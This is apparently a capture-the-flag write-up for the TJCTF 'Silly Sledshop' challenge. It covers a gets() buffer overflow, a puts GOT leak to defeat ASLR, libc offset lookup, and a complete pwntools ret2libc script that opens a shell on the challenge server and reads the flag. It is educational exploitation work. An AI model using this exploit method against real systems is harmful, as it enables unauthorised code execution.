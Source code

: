 ## TJCTF: Silly Sledshop
##### *ret2libc leak + maybe other approaches*
#### I might be ashamed to say this but this challenge got me stuck on it for the duration of the competition. Initially, I thought I was going to solve it through buffer overflow plus nopsleds to execute shellcode, but I had problems regarding some addresses *(solution for this approach soon). After some asking around for nudges, I opted to go for the ret2libc attack on the challenge server, which I got stuck on again, but eventually solved it, hours after the ctf ended. From this, I conclude that there are a lot of things for me to learn, new attacks and approaches to read on and experiment about. 
#### First things first, we examine the binary and it's security measures with ```file``` and ```checksec```:
```
$ file sledshop
sledshop: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=28fae6ecbea7effce8bcd28dd0e53dbd40ecd702, not stripped

$ checksec sledshop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
#### From here, we see that we're dealing with a 32-bit binary with most security measures turned off. So we can say that this is vulnerable to buffer overflow attacks given that no canary is found on the stack. Shellcoding is another way to go, but that will be for another part, I'll tackle the ret2libc approach. It's also important to know that we have the source code for the binary:
```c
#include <stdio.h>
#include <stdlib.h>

void shop_setup() {
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    setbuf(stdout, NULL);
}

void shop_list() {
    printf("The following products are available:\n");
    printf("|  Saucer  | $1 |\n");
    printf("| Kicksled | $2 |\n");
    printf("| Airboard | $3 |\n");
    printf("| Toboggan | $4 |\n");
}

void shop_order() {
    int canary = 0;
    char product_name[64];

    printf("Which product would you like?\n");
    gets(product_name);

    if (canary)
        printf("Sorry, we are closed.\n");
    else      
        printf("Sorry, we don't currently have the product %s in stock. Try again later!\n", product_name);
}

int main(int argc, char **argv) {
    shop_setup();
    shop_list();
    shop_order();
    return 0;
}
```
#### We see here some functions such as shop_setup and shop_list which just prints out and sets the permissions to the binary. What we do want to be interested in is the ```shop_order``` function, which uses a gets call for user input. As we know we can smash the stack using this vulnerable call so what we have to do now is to determine the offset needed to overwrite the instruction pointer.
```
$ gdb ./sledshop
  gdb-peda$ pattern create 100
  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
  
  gdb-peda$ r
  The following products are available:
  |  Saucer  | $1 |
  | Kicksled | $2 |
  | Airboard | $3 |
  | Toboggan | $4 |
  Which product would you like?
  AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
  [...]
  EIP: 0x41414a41 ('AJAA')
  Stopped reason: SIGSEGV
  0x41414a41 in ?? ()
  
  gdb-peda$ pattern offset AAJA
  AAJA found at offset: 80
```
#### We were able to overwrite the eip register with offset 80. But after that, where do we want to jump to? Since we're performing a ret2libc attack here, we follow the usual approach - we jump to the system function, add some address we want to exit to, and we supply the address of the /bin/sh string to be an argument for the system function. The catch here is that ASLR is enabled server side; hardcoding addresses won't help. So what we have to do now is to leak addresses of functions from the server. We do this by ```getting the address of the puts function in the plt, return to the shop_order function to prevent program termination, and supply the address of the puts function in the got to its plt counterpart```
```
gdb-peda$ p puts
$1 = {<text variable, no debug info>} 0x80483f0 <puts@plt>

gdb-peda$ disas puts
Dump of assembler code for function puts@plt:
   0x080483f0 <+0>:	  jmp    DWORD PTR ds:0x804a01c
   0x080483f6 <+6>:	  push   0x20
   0x080483fb <+11>:	  jmp    0x80483a0
End of assembler dump.

gdb-peda$ p shop_order 
$2 = {<text variable, no debug info>} 0x80485bc <shop_order>
```
#### We take note of these addresses: puts@plt is at 0x80483f0, puts@got is at 0x804a01c, and the shop_order function is at 0x80485bc. We can now craft our initial payload to leak, send it to the server, and take note of the leaked address:
```python
#: Exploit code; Stage 1
offset = 'A' * 80
puts_plt = 0x080483f0
puts_got = 0x0804a01c
shop_order = 0x080485bc
exploit = offset + p32(puts_plt) + p32(shop_order) + p32(puts_got)

#: Send payload; Leak puts
p.sendline(exploit)
print(p.recv())
puts_leak = u32(p.recv().split()[4][:4])
```
#### Since ASLR is enabled on the challenge server, the address that we leaked will be different every time we run our script. After leaking the address of puts from the server, we input the last three bytes (even with ASLR, the last three bytes will always be constant) of what we have to ```libc.blukat.me``` to find out which version of libc the server uses and to know at what offsets our ingredients for ret2libc reside. 
```
libc6-i386_2.23-0ubuntu11_amd64 
  Symbol      Offset	 
  system      0x03a940	
  puts	      0x05f140	
  open	      0x0d3f40	
  read	      0x0d4350	
  write	      0x0d43c0	
  str_bin_sh  0x15902b	
  exit        0002e7b0
```
#### Great! Now we have the offsets for the ingredients we need for our exploit. But first, we need to calculate the base address for the libc using the formula ```libc_base = puts_leak - puts_offset```. After which, we add the offsets for the functions and variables we need to the libc_base to get their exact address in the libc. 
```python
libc_base = puts_leak - 0x5f140
system = libc_base + 0x3a940
exit = libc_base + 0x2e7b0
bin_sh = libc_base + 0x15902b
```
#### When we have already done that, we proceed with our usual exploit method - overflow the buffer, jump to system and get shell. For our final script:
```python
from pwn import *

#: Connect to chalenge server 
HOST = 'p1.tjctf.org'
PORT = 8010
p = remote(HOST,PORT)
print(p.recv())

#: Exploit code; Stage 1
offset = 'A' * 80
puts_plt = 0x080483f0
puts_got = 0x0804a01c
shop_order = 0x080485bc
exploit = offset + p32(puts_plt) + p32(shop_order) + p32(puts_got)

#: Send payload; Leak puts
p.sendline(exploit)
print(p.recv())
puts_leak = u32(p.recv().split()[4][:4])
print(hex(puts_leak))

#: Exploit code; Stage 2
offset = 'A' * 80
libc_base = puts_leak - 0x5f140

system = libc_base + 0x3a940
exit = libc_base + 0x2e7b0
bin_sh = libc_base + 0x15902b

exploit = offset + p32(system) + p32(exit) + p32(bin_sh)

#: Send payload; Stage 2
p.sendline(exploit)
print(p.recv())
print(p.recv())
p.interactive()
```
#### We run the exploit, get shell, and cat out the flag! :)
```
$ python exploit.py
[+] Opening connection to p1.tjctf.org on port 8010: Done
The following products are available:

|  Saucer  | $1 |
| Kicksled | $2 |
| Airboard | $3 |
| Toboggan | $4 |
Which product would you like?

Sorry, we are closed.

[*] Switching to interactive mode
$ ls
flag.txt
sledshop
wrapper
$ cat flag.txt
tjctf{5l3dd1n6_0mk4r_15_h4ppy_0mk4r}
```
  
